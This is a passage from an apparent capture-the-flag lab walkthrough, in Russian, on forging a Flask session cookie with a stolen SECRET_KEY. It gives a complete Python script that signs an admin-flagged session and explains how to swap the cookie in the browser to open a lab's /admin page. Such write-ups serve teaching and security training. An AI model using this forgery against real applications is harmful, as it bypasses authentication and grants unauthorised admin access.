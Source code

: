 localhost:9000`

Последнее, что нам нужно, чтобы эта программа сделала, — запросила сервер:
`time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))`

Это будет ждать одну секунду, чтобы дать waitress достаточно времени для запуска сервера, затем он запросит конечную 
точку, которую мы настроили, заставив Flask сгенерировать и предоставить нам cookie, который программа затем 
распечатает. Затем программа завершается, автоматически останавливая сервер.

Теперь мы готовы к работе!

Окончательная программа должна выглядеть так, хотя в нее следует вставить ваш собственный ключ:

Полная программа
```commandline
#!/usr/bin/env python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

#Flask Initialisation
app = Flask(__name__)
app.config["SECRET_KEY"] = "70a5411082ea8e48cc9e7f7d7c12f2c2"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = "Pentester"
    return "Check your cookies", 200

#Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

#Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```
Запуск программы должен выдать нам cookie-файл, подписанный сервером с использованием нашего украденного ключа:
Демонстрация PoC-кода

При каждом запуске программы результат будет разным.

Теперь давайте закончим это. Скопируйте сгенерированный файл cookie, откройте браузерные инструменты разработчика на 
сайте и перезапишите значение текущего сеансового файла cookie. Это также можно сделать с помощью расширения 
браузера, например, Cookie-Editor.

Теперь мы можем получить доступ к https://hipper.hipflasks.thm/admin:
